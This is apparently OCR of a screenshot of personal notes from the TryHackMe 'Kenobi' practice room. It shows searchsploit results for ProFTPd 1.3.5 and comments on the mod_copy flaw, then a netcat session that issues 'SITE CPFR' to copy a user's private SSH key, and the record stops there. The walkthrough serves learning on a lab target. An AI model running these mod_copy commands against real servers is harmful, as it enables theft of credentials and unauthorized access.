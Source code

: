 WU-FTPD 2.4.2 / SCO Open Server 5.0.5 / ProFTPd 1.2 pre1 - 'realpath' Remote Buff | linux/remote/19087.c
WU-FTPD 2.4/2.5/2.6 / Trolltech ftpd 1.2 / ProFTPd 1.2 / BeroFTPD 1.3.4 FTP - glo | linux/remote/20690.sh
---------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

# the above method worked, but showed too many results - I have commented out the ones for the version we recognised
# to check I tried running the following code instead to see if I could do a more precise search:
(kali㉿kali)-[~/THM/practice/kenobi]
└─$ searchsploit ProFTPd 1.3.5                                                                                  1 ⚙
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                         | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                               | linux/remote/36803.py
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution (2)                           | linux/remote/49908.py
ProFTPd 1.3.5 - File Copy                                                         | linux/remote/36742.txt
---------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

# much better
# the exploits we have found are from this module http://www.proftpd.org/docs/contrib/mod_copy.html
        # its basically an exploit which when used right allows us to copy files/directories from on place to another on the server - without having to transfer to/from the client
        # its contained in the mod_copy.c file - not compiled by default

# now; we know the service is running as the user 'Kenobi', and an ssh key is generated for this user
# therefore, next step is to copy Kenobi's private key using the found exploit (SITE CPFR/SITE CPTO) commands [copy-from/copy-to]
(kali㉿kali)-[~/THM/practice/kenobi]
└─$ nc 10.10.5.175 21                                                                                           1 ⚙
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.5.175]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
